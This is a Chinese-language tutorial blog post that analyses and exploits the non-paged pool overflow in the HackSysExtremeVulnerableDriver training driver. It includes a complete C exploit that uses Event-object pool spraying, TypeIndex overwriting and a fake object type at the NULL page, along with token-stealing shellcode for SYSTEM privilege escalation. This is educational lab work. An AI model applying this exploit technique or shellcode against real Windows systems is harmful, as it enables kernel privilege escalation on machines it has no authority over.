

<small>转载请注明出处哦 :  )</small>

## 0x00 前言
本篇的内容为非换页池溢出漏洞分析利用

## 0x01 非换页池溢出漏洞分析
首先打开 BufferOverflowNonPagedPool.c 文件


我们可以很明显地发现池溢出漏洞。函数接受我们的用户 buffer 并直接将用户 buffer 复制到刚分配的非换页池中。

emmmm 那现在我们发现了一个 bug 但是这个漏洞有办法利用吗？它又不像在栈中我们可以直接覆盖 eip 来控制指令流，在非换页池中造成溢出除了蓝屏外(是的，: )若我们修改了不该改的东西，比如说池头，马上就蓝屏了，有兴趣的朋友可以试试，反正玩 windows 经常给整崩，还好有虚拟机)我们有办法控制指令流吗？

答案是肯定的。不过首先我们先补充点知识。

当我们通过 CreateXXX(比如说 CreateEvent, CreateFile 等等)创建一个对象时，系统会自动帮我们在非换页池中申请一块区域来保存这个对象

比如我们通过这么一段小代码来创建 Event 对象试试:

```python
import ctypes, sys, struct
from ctypes import *
from subprocess import *
 
def main():
    kernel32 = windll.kernel32
    ntdll = windll.ntdll
	
    hevDevice = kernel32.CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver", 0xC0000000, 0, None, 0x3, 0, None)
	 
    if not hevDevice or hevDevice == -1:
        print "*** Couldn't get Device Driver handle."
        sys.exit(0)
 
    buf = "A" * 504
    buf_ad = id(buf) + 20
 
    spray_event1 = []
 
    for i in xrange(20):
        spray_event1.append(kernel32.CreateEventA(None, False, False, None))
 
    kernel32.DeviceIoControl(hevDevice, 0x22200f, buf_ad, len(buf), None, 0, byref(c_ulong()), None)
	
if __name__ == "__main__":
    main()
```

（这里为什么要分配 20 个 Event 对象，是因为非换页池极有可能非常的零碎，等会儿我们展示 TriggerBufferOverflowNonPagedPool 函数分配的非换页池附近的空间中都可能根本看不到 Event，多分配一点好找仅此而已）下好断点后我们运行一下上面的程序，在 windbg 中我们可以看到


`命令是 !pool 0x85EABDC8`

我们在图中可以看到标签为 Hack 的是我们的漏洞函数分配的空间，标签为 Even(t) 且 size 为 40 的是我们的代码分配的空间。当然池中可能还有其它标签为 Even 但是 size 不为 40 的对象，那不是我们分配的，至于为什么 size 不一样是因为创建的场景和传入的参数都会影响到这个值。那为什么我们可以知道 size 为 40 的就是我们创建的呢？等会儿 spray 的时候你看到那一大堆的 Even 就可以很显然地知道那是我们创建的了，那一堆 Even 的 size 都是 40。

现在我们来看看这个对象在池中的结构


> 红色部分为 pool header

> 黄色部分为 object header quota info

> 蓝色部分为 object header

> 绿色部分为 object body

这就是 Even 对象的 40 个 size 的全部构成。我觉得其它的都应该很好理解，header + body 嘛。但是那个 quota info 是什么鬼？

在对象中，对象头的上方可能存在可选的头部信息（也称为子头部），可选的头部信息一共有这么几种：

| | process info | quota info | handle info | name info | creator info
|---|---|---|---|---|---|
|掩码| 0x10 | 0x08 | 0x04 | 0x02 | 0x01 | 
|大小| 0x08 | 0x10 | 0x08 | 0x10 | 0x10 |

在对象创建的时候，根据对象的种类、创建的场景以及传入的参数不同，可选头部有可能存在，也有可能不存在。存在的话有可能只存在一个，也有可能同时存在多个。具体存在与否可以看到 object header 中的 InfoMask，其指示了该对象存在何种可选头部信息。

比如说上图中我们可以看到 InfoMask 段的值为 0x8，因此可选头部信息为 quota info，正好是 0x10 个字节。

说是这样说，但我们一开始 dd 85eabfc0 的时候，怎么知道它到底有没有可选头部信息以及有多少个呢？（因为假设说你不知道有没有可选头部信息以及有多少个，你就根本不知道 InfoMask 的偏移到底是多少）如果是正着写程序的话我们当然知道我们是否有创建可选头部信息以及都创建了什么，但我们现在是直接逆着来通过看池结构进行分析。

这个只能说看经验了，一共就两种大小组一组看看 InfoMask 对不对得上，若是对得上的话你就知道都创建了什么可选头部信息了。

好到现在我们已经知道了 Event 对象在非换页池中的结构了。接下来看看我们感兴趣的东西: TypeIndex 段。

每个对象都有其对应的种类，这点在对象头中用 TypeIndex 段进行标识。TypeIndex 的值代表着该对象的 object type 在 ObTypeIndexTable 中的偏移。


比如上图的 TypeIndex 段的值为 0xc，那么其 object type 的地址在表中的位置就是红框中的位置。

现在我们看看 Event 对象的 object type


我们感兴趣的数据段为 TypeInfo，下图是 TypeInfo 的结构


看到红框中的部分，这一部分是回调函数，其含义为当该种类的对象 XXX 时所要调用的函数的地址。

好，到现在应该已经补充完了我们所需要的知识了。

回到一开始的问题，我们有办法通过非换页池溢出漏洞来控制指令流吗？上面也说了答案是肯定的，我们只需要

> 1. 保证我们的 kernel buffer 后紧跟一个 Event 对象。
>> - 为什么要是 Event 对象呢？因为我们的 kernel buffer 在池中的大小为 0x200(0x1f8 + 0x8)，而 Event 对象在池中的大小为 0x40。0x40 * 8 = 0x200。这有什么用呢？下文的 pool spray 一文中会给出解释。
>> - 如何保证我们的 kernel buffer 后紧跟一个 Event 对象呢？这可以通过 pool spray 来得到保证
> 2. 通过池溢出漏洞覆盖 kernel buffer 后紧跟的 Event 对象的 object header 中的 TypeIndex 的值为 0x00
>> - 为什么要覆盖为 0x00 呢？因为显然我们没办法在用户模式下修改 Event 对象的 object type 字段的值。不过看到 ObTypeIndexTable[0] 的值为 0x00000000，这是一个 NULL 指针，指向空指针区。（x86 下 0x00000000~0x0000FFFF 是一段空指针区，理论上是不可读写的，对它进行读写就会报错，用来预防程序员对 NULL 指针进行操作）我们在用户模式下可以通过 NtAllocateVirtualMemory 来分配这段地址的内存空间，用 WriteProcessMemory 来覆盖这段地址的内存空间。因此我们就可以在 0x00000000 处伪造一个 object type，来使 kernel buffer 后紧跟的 Event 对象的 TypeIndex 指向这个 object type
> 3. 在 0x00000000 处伪造一个 object type，使它的 CloseProcedure 指向我们的 shellcode
> 4. 调用 CloseHandle 来执行我们的 shellcode

### 保证 kernel buffer 后紧跟 Event 对象 (pool spray)
pool spray 翻译应该是池喷射。它分为三步。

> 第一步通过分配大量较小的非换页池空间来填补非换页池中存在的碎片。即使之后还存在碎片也不是我们的 kernel buffer 能放得下的

> 通过第一步的铺垫我们可以认为接下来分配的空间是连续的，因此第二步为分配一段连续的空间记为 x。

> 第三步在 x 中挖出很多正好符合我们要求大小的洞，以确保我们的 kernel buff 能正好被分配到这其中的一个洞上并且其后紧跟的是属于 x 的空间。

不知道这样说大家能不能理解，毕竟自己是个幼儿园水平的画手，这里就不贴图了，就算不能理解等会儿看看代码再来回顾一下应该能懂吧。

所以为什么我们要用 Event 对象呢? 因为我们的 kernel buffer 在池中的大小为 0x200(0x1f8 + 0x8)，而 Event 对象在池中的大小为 0x40。0x40 * 8 = 0x200。因此，我们只要回收 8 个 Event 对象就能在 x 中挖出一个 0x200 大小的洞。而且 0x40 也满足第一步的要求。

### 覆盖 TypeIndex
就像栈溢出一样，我们只要通过溢出就能改写紧跟在 kernel buffer 后的内存空间了，因此覆盖 TypeIndex 不是什么问题。但是这里要注意的是不能破坏原本的 Event 对象的结构，特别是池头，不然直接蓝屏。因此我们只修改那么一个字节就好了。

### 伪造 object type
我们可以通过 NtAllocateVirtualMemory 来分配基址为 0x00000000 的内存空间，使其变成可读写的存在，然后通过 WriteProcessMemory 来为 CloseProcedure 赋值。

### 执行 shellcode 
通过 CloseHandle 来回收被我们修改过的 Event 对象就能触发 CloseProcedure 来执行我们的 shellcode 的。但问题是我们不知道哪一块才是我们修改过的 Event 对象。没关系，我们直接把剩下的空间全部回收了就行，而且这才是正确的编程习惯，不然就会变成一直占着池空间不用了。

## 0x02 非换页池溢出漏洞利用
通过上面的分析我们已经知道如何利用漏洞来执行 shellcode 了，接下来贴出源码看看细节

```c
// nonPagedpooloverflow.cpp : Defines the entry point for the console application.
//

#include "stdafx.h"

#include <windows.h>
#include <Memoryapi.h>
#include <intrin.h>


typedef NTSTATUS(WINAPI * NtAllocateVirtualMemory_t) (HANDLE    ProcessHandle,
	PVOID     *BaseAddress,
	ULONG_PTR ZeroBits,
	PSIZE_T   RegionSize,
	ULONG     AllocationType,
	ULONG     Protect);

char shellcode[] = {

	"\x90\x90\x90\x90"              // NOP Sled
	"\x60"                          // pushad
	"\x31\xc0"                      // xor eax,eax
	"\x64\x8b\x80\x24\x01\x00\x00"  // mov eax,[fs:eax+0x124]
	"\x8b\x40\x50"                  // mov eax,[eax+0x50]
	"\x89\xc1"                      // mov ecx,eax
	"\xba\x04\x00\x00\x00"          // mov edx,0x4
	"\x8b\x80\xb8\x00\x00\x00"      // mov eax,[eax+0xb8]
	"\x2d\xb8\x00\x00\x00"          // sub eax,0xb8
	"\x39\x90\xb4\x00\x00\x00"      // cmp [eax+0xb4],edx
	"\x75\xed"                      // jnz 0x1a
	"\x8b\x90\xf8\x00\x00\x00"      // mov edx,[eax+0xf8]
	"\x89\x91\xf8\x00\x00\x00"      // mov [ecx+0xf8],edx
	"\x61"                          // popad

	"\xC3"                          // ret
	//"\xC2\x10\x00"                  // ret 16
};

int main()
{
	char buf[504] = { 0 };
	memset(buf, 'A', sizeof(buf));

	char *payload = (char *) malloc(sizeof(buf) + 40);
	memcpy(payload, buf, sizeof(buf));
	char *temp = payload + 504;
	*(PULONG)temp = (ULONG)0x04080040;
	temp = (char *)((ULONG)temp + 0x4);
	*(PULONG)temp = (ULONG)0xee657645;
	temp = (char *)((ULONG)temp + 0x4);
	*(PULONG)temp = (ULONG)0x00000000;
	temp = (char *)((ULONG)temp + 0x4);
	*(PULONG)temp = (ULONG)0x00000040;
	temp = (char *)((ULONG)temp + 0x4);
	*(PULONG)temp = (ULONG)0x00000000;
	temp = (char *)((ULONG)temp + 0x4);
	*(PULONG)temp = (ULONG)0x00000000;
	temp = (char *)((ULONG)temp + 0x4);
	*(PULONG)temp = (ULONG)0x00000001;
	temp = (char *)((ULONG)temp + 0x4);
	*(PULONG)temp = (ULONG)0x00000001;
	temp = (char *)((ULONG)temp + 0x4);
	*(PULONG)temp = (ULONG)0x00000000;
	temp = (char *)((ULONG)temp + 0x4);
	*(PULONG)temp = (ULONG)0x00080000;
	
	// begin exp

	LPVOID ptr = VirtualAlloc(0, sizeof(shellcode), 0x3000, 0x40);
	RtlCopyMemory(ptr, shellcode, sizeof(shellcode));

	HMODULE hmodule = LoadLibraryA("ntdll.dll");

	NtAllocateVirtualMemory_t NtAllocateVirtualMemory = (NtAllocateVirtualMemory_t) GetProcAddress(hmodule, "NtAllocateVirtualMemory");

	if (NtAllocateVirtualMemory == NULL) {
		printf("getprocaddress failed\n");
		return 0;
	}

	PVOID baseAddress = (PVOID) 1;
	ULONG regionsize = 0x100;
	NTSTATUS status = NtAllocateVirtualMemory((HANDLE) 0xFFFFFFFF, &baseAddress, 0, &regionsize, 0x3000, 0x40);

	if (status != 0) {
		printf("alloc failed,error code is:%u\n", status);
		return 0;
	}
	if (!WriteProcessMemory((HANDLE)0xFFFFFFFF, (LPVOID)0x60, &ptr, 0x4, NULL)) {
		printf("write failed\n");
		return 0;
	}

	int i = 0;
	int j = 0;
	HANDLE spray1[10000];
	HANDLE spray2[5000];

	for (i = 0; i < 10000; i++) {
		spray1[i] = CreateEventA(NULL, FALSE, FALSE, NULL);
	}
	for (i = 0; i < 5000; i++) {
		spray2[i] = CreateEventA(NULL, FALSE, FALSE, NULL);
	}

	for (i = 0; i < (sizeof(spray2) / sizeof(HANDLE)); i = i + 16) {
		for (j = 0; j < 8; j++) {
			CloseHandle(spray2[i + j]);
		}
	}


	HANDLE hevDevice = CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver", 0xC0000000, 0, NULL, 0x3, 0, NULL);
	LPDWORD lpBytesReturned = 0;
	DeviceIoControl(hevDevice, 0x22200f, payload, sizeof(buf) + 40, NULL, 0, lpBytesReturned, NULL);

	for (i = 8; i < (sizeof(spray2) / sizeof(HANDLE)); i = i + 16) {
		for (j = 0; j < 8; j++) {
			CloseHandle(spray2[i + j]);
		}
	}

	for (i = 0; i < 10000; i++) {
		CloseHandle(spray1[i]);
	}

	system("whoami");
	return 0;
}

```

源码部分就不细说了，大家对照着 0x01 小节看就好了。这里说一下两个地方。

第一个是 NtAllocateVirtualMemory。你可能会像我一样好奇第二个参数的值为什么是 1。我们看看官方文档怎么说的



首先我们不能让系统自己分配，因为我们要确切地从 0x00000000 开始分配。然后这个值根据我的测试结果只要你填一个大于 0 的数系统都会从 0x00000000 开始分配，其区别只在于影响到第四个参数(RegionSize)的返回值。文档上说是 rounded down，这应该是一个四舍五入的算法，具体从多少开始 rounded 到下一个我不太清楚，反正小一点分配本页面，大一点就是连下一个页面都分配了。因此这个值只要是个大于 0 的数就行。

然后是堆栈平衡问题。

这次我们的 shellcode 什么函数都没有劫持。只是 ObpDecrementHandleCount 函数简单地 call 了我们的 shellcode，然后我们的 shellcode 又什么寄存器都没修改，所以最后只要简单地 ret 就好了，不存在堆栈平衡问题，只是不知道为什么师傅们都 ret 16

## 0x03 结束语
这次非换页池溢出感觉又学到了很多东西，写 exp 也熟练多了，虽然又是一天愉快的 error 99999 

： )

---
<p align='right'>2019.9.3</p>


